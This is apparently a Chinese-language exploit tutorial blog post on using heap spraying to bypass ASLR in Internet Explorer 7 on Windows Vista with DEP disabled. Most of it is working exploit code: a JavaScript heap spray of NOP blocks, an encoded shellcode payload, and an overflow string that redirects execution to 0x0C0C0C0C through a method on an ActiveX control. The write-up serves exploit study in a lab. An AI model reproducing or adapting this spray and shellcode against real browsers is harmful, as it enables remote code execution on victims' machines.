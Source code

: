 ```yaml
---
layout:		post
title:		利用Heap Spray技术定位内存地址
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows Vista Ultimate sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>Flash Player ActiveX: 9.0.262  
>注意: 关闭系统DEP  
<!-- more -->


新建test.html, 贴入以下代码

```
<html>  
<body>  
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>  
<script>  
var nops = unescape("%u9090%u9090");
while (nops.length < 0x100000/2)
	nops += nops;
nops=nops.substring(0,0x100000/2-32/2-4/2-2/2-2);
nops=unescape("%u8281%u8182")+nops;
var memory = new Array();
for (var i=0;i<200;i++)
	memory[i] += nops;
test.test("\u9090\u9090");
</script>  
</body>  
</html>
```

OD附加上去, 在内存检索0x81828281, 可以看到申请的内存块

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x01.png)

填充shellcode

```
<html>  
<body>  
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>  
<script>  
var nops = unescape("%u9090%u9090");
var shellcode = "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
while (nops.length < 0x100000)
	nops += nops;
nops = nops.substring(0,0x100000/2-32/2-4/2-2/2-shellcode.length);
nops = nops + shellcode;
var memory = new Array();
for (var i=0;i<200;i++)
	memory[i] += nops;
var s = "\u9090";
while(s.length < 54)
	s += "\u9090";
s += "\u0C0C\u0C0C";
test.test(s);
</script>  
</body>  
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x02.png)